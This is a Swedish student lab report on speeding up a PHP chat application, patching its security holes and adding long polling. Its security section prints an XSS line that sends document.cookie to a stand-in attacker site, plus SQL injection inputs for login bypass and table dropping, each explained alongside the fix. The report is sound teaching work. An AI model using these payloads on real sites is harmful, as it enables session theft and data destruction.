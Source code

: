 Rapport för laboration 2 - 1DV449
Av: Viktor Nilsson

### Laddningstid ###

Det fanns en hel del att göra för att optimera laddningstiden för sidan och dessa samt tiderna efter att förändringarna gjorts visas här nedan.
Då det främst var inloggningen som tog tid gjordes flest tester här. Applikationen har under dessa tester körs från binero.

Tider för inloggningen i sekunder.

Gjort åtgärd:           1      2      3      4      5     6     7
Första gången: 7050 - 3640 - 6500 - 6320 - 3080 - 3710 - 913 - 1070
Andra gången:  5860 - 2620 - 2230 - 2600 - 2760 -  586 - 112 -  647
Tredje gången: 4270 - 2250 - 2020 - 3100 - 3030 -  424 - 367 -  496

 Åtgärder
 1. Ta bort onödig location (img/middle.php) + delayen på 2 sec
 2. Ta bort script som inte finns (longpoll.js) - onödig + mindre GET, boken
 3. Flytta om så att check.php körs i mess.php för att slippa ännu fler GET, boken
 4. Samla inline-script och css i mess.php och köra med externa filer (othercss.css, otherscripts.js)
 5. Tar bort dynamiska cssfilerna från css.php och lagt i othercss.css statiska filer. Kortare laddningstider pga lokal, färre GET, boken
 6. Minska bilderna - mindre data att skicka => snabbare (food.jpg)
 7. Minimera storleken på css- och js-filer.
 
 
 1. Genom att ta bort GET-requests drar vi ner på laddningstiden så location's vill vi minimera. Sen tog jag även bort fulingen som gjorde att applikationen tog 2 sekunder extra att laddas. Som källa till denna åtgärd tar jag både boken och föreläsningarna då vi pratat mycket om att dra ner på antalet förfrågningar. Laddningstiden blev markant bättre främst på grund av de 2 sekunderna som applikationen pausade.
 2. Scriptet fanns ej och såg därför ingen anledning till att ha det med. Detta drog ner på ytterligare en GET-request även fast det nog inte gjorde speciellt mycket är det en av de små bäckarna. Laddningstiden blev konstig första gången men andra och tredje visar ändå på förbättring, frågan är dock om det gjorde så pass mycket som den visar. Samma referens som ovan.
 3. För att fortsätta dra ner på onödiga laddningar omstrukturerade jag lite och flyttade över funktionalitet från check.php till mess.php. Här ser vi att laddningstiden hoppar upp förmodligen på grund av andra faktorer.
 4. Jag behöll inline-cssen för index.php då den förmodligen bara kommer köras en gång per session, men inline script och css i mess.php samlade jag ihop till var sin extern fil (othercss.css & otherscripts.js) för att kunna cachea detta så att det går snabbare att ladda sidan senare. Även omstrukturering gjordes i ordningen saker och ting laddades. Längst upp laddas css och längst ner script. css ska laddas först för att sidan ska kunna renderas snyggt och snabbt, script sist för att dessa inte behövs förrän sidan renderats och att dom enbart laddas hem en och en. (Boken som referens, Rule 6). Här ser vi vid första laddningen en markant skillnad. Det kan vara att bilden var cachead som spökade här.
 5. Jag vet inte om man fick göra så här, men vad jag kunde se från innehållet på de dynamiskt laddade css-filerna grid1 & grid2 fanns där inget som var specifikt för delar av sidan så jag valde att spara dessa lokalt istället för att snabba upp tiden. (Antar att det låg någon sleep() i denna också). Dessa tog över 1 sekund att ladda så skulle ge en markant skillnad hade jag hoppats på och det gav det förutom första laddningen som visar helt andra siffror.
 6. En sak jag märkte var att food.jpg var enormt stor och då den inte visades större än ungefär 300x220 behövde den heller inte vara större då den inte någonstans i applikationen visades större än detta. Här hade jag när jag gjort skrapan ändra storleken på skrapade bilder i php och sparat ner dessa i rätt storlek för att dra ner på datamängen som ska över till klienten. Här ser vi en stor skillnad då bilden emellanåt tog upp till 2-3 sekunder att ladda ibland.
 7. Som sista grej valde jag att förminska storleken på alla externa resurser (css och js) genom en minifier (http://cssminifier.com/ och http://javascript-minifier.com/). Allt för att dra ner på mängen data som ska skickas över. Testerna här visar att resultaten i förra testet kanske inte var helt så bra som dom visade då tiderna gick upp trots att jag förväntade mig dom att gå ner på grund av datamängen minskats med över 20-30% totalt på de externa resursfilerna.
 
 Kommentarer:
 css.php?css=grid1/2 tar väldigt ojämnt med tid under första testerna vilket gjort vissa tider ej rättvisa.
 den stora bilden food.jpg laddas inte alltid trots att cache rensas vilket har ställt till det i vissa testresultat.
 
 
 
 
### Säkerhet ###

1. Det fanns gott om säkerhetshål i applikationen varav ett var XSS i meddelandefältet.
* Man skulle kunna med hjälp av följande rad kunna skicka iväg cookieinformation till en extern sida: <script language="JavaScript">document.location="http://minhaxx0rsida.se/sparacookie.php?cookie=" + document.cookie;document.location="http://www.tillbakatillsidan.com"</script>
* Jag fixade till detta genom att köra htmlentities på all data som ska ut.
* Skada som hade kunnat ske är att någon får tag på ens session och kan komma in på sidan inloggad som dig.

2. Det finns inget skydd mot att highjacka sessioner.
* Man kan om man kommer åt sessionsinformationen (t.ex med en XSS-attack) använda denna för att logga in på sidan.
* Jag fixade detta genom att spara undan både IP och useragent som man sedan kollar mot. Går att manipulera men då måste attackeraren veta båda IP och useragent.
* Skadan som hade kunnat ske är samma som ovan; någon kan komma in på sidan inloggad som dig.

3. Mycket hål för SQL-Injections i ajaxanropen. Det jag upptäckt är getMessage, getMessageIdForProducer, getProducer går att utnyttja för SQL-injections.
* Genom att mata in ' OR '1'='1 Kommer allt att hämtas hem. Vill man kan man även '; DROP TABLE tabellen;--
* Fixas genom antingen att kolla så att ett ID är ett tal, intval() brukar jag använda för nummer. Att köra en prepare() och sen en bindParam() är vad jag gjort i detta fallet på samtliga.
* Med en SQL-Injection skulle man kunna komma över information från databasen eller förstöra genom att ta bort och manipulera data. Är lösenorden dåligt krypterade skulle dessa kunna användas för att testa dina inloggningsuppgifter på andra tjänster.

4. Det gick att logga in med SQL-injections i inloggningsfältet.
* Genom att mata in ' OR '1'='1 i båda fälten kommer du loggas in, inte otänkbart med adminkonto då detta ofta registreras först. Vet du användarnamnet kan du skriva in det och sedan skriva ' OR '1'='1 i lösenordsfältet för att logga in som den personen.
* Fixas som ovan genom att köra prepare() och bindParam().
* Går att göra saker som ovan men även att logga in som andra.

5. Mer SQL-injections finns att genomföra i meddelandeformuläret, både som namn och meddelande. Detta är precis som ovan avhjälpt med prepare() och bindParam() och innefattar samma säkerhetsrisker som ovan.

6. En säkerhetsrisk som var enkelt att missa var att vid utloggning blev man inte utloggad utan bara skickad till inloggningssidan. Gick man tillbaka var man fortfarande inloggad. Jag lade till en funktion som gjorde att man loggades ut innan man skickades tillbaka till index.php.
* Risken är att någon annan sätter sig vid datorn och kan komma åt ditt konto då du inte loggats ut på riktigt.
* Ta bort sessions hjälper i detta fallet för att döda inloggningen.
* Förbrytaren kan göra allt du kan då den är inloggad som dig.

### Comet Long Polling ###

Spännande extrauppgift som var riktigt lärorik! Jag löste uppgiften genom att ha en php-fil som efter att den kallas lägger sig i en loop i bestämt antal sekunder och kollar frekvent mot databasen om ett meddelande med ett nyare ID än det som skickades till scriptet finns. Om inte fortsätter loopandet, om det däremot kommit ett meddelande som är nyare och överensstämmer med producer-idet ($pid) retureras detta.

På klientsidan har jag tagit bort den vanliga koden som läste in meddelandena och ersatte med min egna som helt enkelt börjar med att kika om det finns något meddelande för $pid'en som är större än vilket det kommer finnas om det finns meddelanden. Detta äldsta meddelande skickas tillbaka och skrivs ut, samma kod excekveras igen fast denna gången med det nya idet för meddelandet. Hittas ett meddelande som är nyare händer samma sak och detta pågår till dess att det inte finns några nyare meddelande än sist laddat meddelande. Då kommer den istället ligga och försöka ladda scriptet tills dess att den timeoutar. Då tar den upp en ny anslutning och ligger och väntar innan antingen den också timeoutar eller att det faktiskt kommer ett nytt meddelande.

Den stora nackdelen är de väldigt många SQL-anrop som sker. Allt för att användaren ska få en push-aktig upplevelse. PHP är heller inte gjort för att ha denna typ av öppna anslutningar och vad jag kunnat läsa mig till så är detta väldigt resurskrävande med öppna anslutningar och php.

Jag lade även til en kolumn i sqlite-databasen (timestamp som integer) som håller tiden. Med javascript omvandlar jag denna och spottar ut mig ett finare format.
.prepend användes istället för .append för att få meddelandena att hamna i rätt ordning (senast överst).

### Slutkommentarer: ###
Ingen energi alls har lagts på att strukturera upp koden snyggare och med enhetligt. Hade jag haft tid hade jag gärna försökt ge mig på och göra denna kod mer objektorienterad och MVC men tid har inte funnits.
Inte heller har jag brytt mig om att kapsla in javascriptsfunktioner och den globala variabeln på ett snyggare sätt som vi lärde oss i webbteknik 1, också detta för att prioritera de moment laborationen var till för.
Hade jag haft mer tid hade detta också fixats.